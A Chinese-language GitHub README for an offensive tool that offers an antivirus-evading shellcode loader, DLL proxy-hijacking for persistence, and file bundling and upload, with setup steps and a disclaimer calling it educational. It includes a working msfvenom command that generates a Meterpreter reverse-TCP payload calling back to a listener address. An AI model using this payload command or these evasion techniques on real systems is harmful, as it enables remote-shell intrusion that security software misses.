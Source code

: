 # GlllPowerloader


- [1.前言](#1前言)

- [2.功能](#2功能)

- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  
  - [0x03.Automation\_loader](#0x03automation_loader)
  
  - [0x04.文件格式转换](#0x04文件格式转换)
  
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  
    
  
- [4.更新](#4更新)

- [5.免责声明](#5免责声明)

- [6.结语](#6结语)

# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，主要目的是学习恶意代码和自动化


# 2.功能



|      功能      |                 描述                  |
| :------------: | :-----------------------------------: |
|  1.免杀加载器  |    拥有十种以上的shellcode加载方式    |
| 2.文件格式转换 |      Windows中文件格式之间的转换      |
|   3.权限维持   | 生成代理劫持的Dll，用于持久化渗透测试 |
|   4.文件捆绑   |     1.捆绑文件异步执行2.上传文件      |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)的编程环境：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

将bin目录添加至环境变 量即可

2.Golang编程环境：https://go.dev/dl/go1.19.4.windows-amd64.msi

3.Nim编程环境：

Nim下载：https://nim-lang.org/install.html

将bin目录添加至环境变量

您还需要下载Winim：https://github.com/khchen/winim

```
cd winim-master
nimble install
```

如果您在windows中安装了Git，就可以这样使用：

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.shellcode loader的使用

大部分已经不能免杀了，不过稍微改一下基本上都能过，建议使用无阶段的shellcode（Stageless）

Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



## 0x03.Automation_loader



## 0x04.文件格式转换



## 0x06.文件托管

将文件上传到https://transfer.sh/



# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15-19，删除冗余的功能，优化代码


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

在编写Powerloader时学习了很多前辈的项目，在此我非常感谢他们

关于C/C++的加载器 ，我参考了它的部分代码和框架格式，这非常有意义：https://github.com/icyguider/Shhhloader

还有Nim惊人的项目：https://github.com/byt3bl33d3r/OffensiveNim

感谢：https://github.com/danielbohannon/Invoke-DOSfuscation

https://github.com/peewpw/Invoke-PSImage
